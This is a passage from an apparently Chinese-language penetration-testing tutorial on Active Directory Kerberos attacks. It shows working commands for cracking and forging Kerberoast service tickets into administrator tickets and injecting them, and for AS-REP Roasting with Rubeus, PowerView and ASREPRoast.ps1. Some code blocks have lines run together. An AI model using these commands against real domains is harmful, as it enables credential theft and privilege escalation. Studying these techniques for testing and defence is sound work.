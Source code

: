 **2.kerberoast 中的 tgsrepcrack.py**

支持 kribi 文件破解

```
python3 tgsrepcrack.py pass.txt xxx.kribi
```

### **How to use Kerberoast**

既然我们都把 ST 的加密 hash 都破解了，那么我们就可以随便改 ST 中的票据内容了..\ 这里使用的是 kerberoast 工具集里的 kerberoast.py

```
python kerberoast.py -p Password123 -r PENTESTLAB_001.kirbi -w PENTESTLAB.kirbi -u 500python kerberoast.py -p Password123 -r PENTESTLAB_001.kirbi -w PENTESTLAB.kirbi -g 512## 将票据权限改为administratorkerberos::ptt PENTESTLAB.kirbi  #将票据注入到内存
```

**四、AS_REP Roast**
------------------

较 Kerberoast 来说，比较鸡肋。  
它的原理是在不开启 kerberos 预身份验证的前提下，获得其他用户的 AS_RES，并破解加密 session key 的 client hash。

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMHOSdntcmgicMTWKZkq1I3iarkLHr6QI1dcaufE2qQ4jNP9U5XfZrowxg/640?wx_fmt=png)

### **How to get HASH**

**1.Rubeus**

```
Rubeus.exe asreproast
```

然后就会搜索域中不需要 kerberos 预验证的用户，并获得 ASREP。

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMibRdBGFwwsyZibSzuc3NfNKRma7ZgRus0icB49bae4QbStiaVL70rOhqHA/640?wx_fmt=png)

**2.Empire 框架与 ASREPRoast.ps1**

使用 Empire 框架下的 powerview.ps1 查找域中设置了 “不需要 kerberos 预身份验证” 的用户

```
Import-Module .\powerview.ps1 Get-DomainUser -PreauthNotRequired
```

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMXcsMKFYdCbqHIJNnaZl7UaU4gal8N71O6vXr56tSLmq8y57F9cu5DQ/640?wx_fmt=png)然后用 ASREPRoast.ps1 ：https://github.com/HarmJ0y/ASREPRoast 获取指定用户的 AS-REPhash

```
Import-Module ASREPRoast.ps1Get-ASREPHash -USER xx -Domain xx |Out-file -Encoding ASCII hash.txt
```

就会生成一个 hash 数据文件了

### **How to crack hash**

将生成的 HASH 保存起来，并在下图处加入 $23

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWM2ppk3LPtwB7CeWQMZuLfickM8scsYDb3FTg21Tu1xpKPl2v1DesFkrA/640?wx_fmt=png)
